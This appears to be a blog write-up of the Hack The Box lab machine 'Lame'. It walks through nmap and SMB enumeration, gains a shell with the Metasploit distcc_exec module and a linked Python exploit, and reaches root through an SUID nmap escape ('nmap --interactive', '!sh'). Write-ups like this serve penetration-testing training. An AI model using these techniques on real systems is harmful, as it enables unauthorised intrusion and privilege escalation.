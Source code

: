 ```yaml
---
title:     "Hack The Box - Lame"
tags: [linux,easy,SUID,cve]
layout: post
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/1.png)

We are going to pwn Lame from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/1>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results
```bash
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: remote management|WAP|printer|general purpose|power-device
Running (JUST GUESSING): Dell embedded (92%), Linksys embedded (92%), Tranzeo embedded (92%), Xerox embedded (92%), Linux 2.4.X|2.6.X (92%), Dell iDRAC 6 (92%), Raritan embedded (92%)
OS CPE: cpe:/h:dell:remote_access_card:6 cpe:/h:linksys:wet54gs5 cpe:/h:tranzeo:tr-cpq-19f cpe:/h:xerox:workcentre_pro_265 cpe:/o:linux:linux_kernel:2.4 cpe:/o:linux:linux_kernel:2.6 cpe:/o:dell:idrac6_firmware cpe:/o:linux:linux_kernel:2.6.22
Aggressive OS guesses: Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Linux 2.6.8 - 2.6.30 (92%), Dell iDRAC 6 remote access controller (Linux 2.6) (92%), Raritan Dominion PX DPXR20-20L power control unit (92%), LifeSize video conferencing system (Linux 2.4.21) (92%), Linux 2.6.23 (91%), OpenWrt Kamikaze 7.09 (Linux 2.6.22) (90%), Arris TG862G/CT cable modem (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## FTP Enumeration

So lets start from 1st port ```ftp``` 
Lets check whether the version has any exploit available.

Since we know the verion of ``ftp`` which is ``vsftpd 2.3.4`` from nmap scan lets search for any exploits available.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/2.png)

It didn't worked, they might patched it.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/3.png)

Lets check other ports.

## SMB Enumeration

First I checked any shares available and it seems we have Read and Write access on `tmp`.
```bash
root@kali:~# smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	tmp                                               	READ, WRITE	oh noes!
	opt                                               	NO ACCESS	
	IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```
I get some error if I tried connecting to it.

## Getting User Shell

We know port `3632` running `Distcc` So I googled for any exploits available and found an exploit/

> https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec

>use exploit/unix/misc/distcc_exec

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/4.png)

We got shell and found an user ``makis``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/5.png)

### Without Metasploit

There is a python script from Github
> https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855

I tried using that python script and didn't changed any and got the shell as `daemon`.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/8.png)

## Privilege Escalation

Uploaded my enumeration Script and 
Found some SETUID.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/6.png)

Lets try with ``nmap``

I searched for nmap in GTFOBins 

>https://gtfobins.github.io/gtfobins/nmap/

```
nmap --interactive
nmap> !sh
```
Using the commands

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/7.png)

We got the Root!!

